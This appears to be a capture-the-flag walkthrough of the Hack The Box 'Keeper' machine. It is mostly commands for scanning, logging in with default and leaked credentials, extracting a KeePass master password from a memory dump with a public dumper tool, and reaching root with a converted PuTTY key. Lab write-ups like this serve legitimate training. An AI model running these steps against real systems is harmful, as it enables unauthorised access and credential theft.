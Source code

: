 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.227          # Full port scan
nmap -p 22,80 -sCV 10.10.11.227                 # Version and script scan
ffuf -u http://10.10.11.227 -H "Host: FUZZ.keeper.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac -mc all
echo "10.10.11.227 keeper.htb tickets.keeper.htb" | sudo tee -a /etc/hosts
```

---

## 🔐 Request Tracker Access

```text
URL: http://tickets.keeper.htb/rt/
Username: root
Password: password
```

> Default credentials work. One support ticket reveals a KeePass memory dump.

---

## 🧑‍💻 [Shell as lnorgaard](SSH)

```bash
sshpass -p 'Welcome2023!' ssh lnorgaard@keeper.htb
cat user.txt
```

---

## 🧠 KeePass Dump Analysis

Files found:

```bash
scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip .
unzip RT30000.zip
# -> KeePassDumpFull.dmp (RAM dump)
# -> passcodes.kdbx (KeePass database)
```

---

## 📥 CVE-2022-32784 - KeePass Password Disclosure

**References:**

- [GitHub - vdohney/keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper)

### 🪟 Windows (DotNet)

```powershell
git clone https://github.com/vdohney/keepass-password-dumper
cd keepass-password-dumper
dotnet run Z:\path\to\KeePassDumpFull.dmp
```

### 🐧 Linux (Docker workaround)

```bash
docker run --rm -it -v $(pwd):/data mcr.microsoft.com/dotnet/sdk:7.0.100
git clone https://github.com/vdohney/keepass-password-dumper
cd keepass-password-dumper
dotnet run /data/KeePassDumpFull.dmp
```

> Recovers: `●rødgrød med fløde`

---

## 🔓 KeePass Access

```bash
apt install kpcli
kpcli --kdb passcodes.kdbx
# Master password: rø dgrød med fløde
```

Useful credentials:

- **User:** root  
- **Notes:** PuTTY private key in legacy format

---

## 🔁 PuTTY to OpenSSH Key Conversion

```bash
apt install putty-tools
puttygen root-putty.key -O private-openssh -o keeper-root.key
chmod 600 keeper-root.key
```

---

## 🧑‍🚀 Root Access

```bash
ssh -i keeper-root.key root@keeper.htb
cat /root/root.txt
```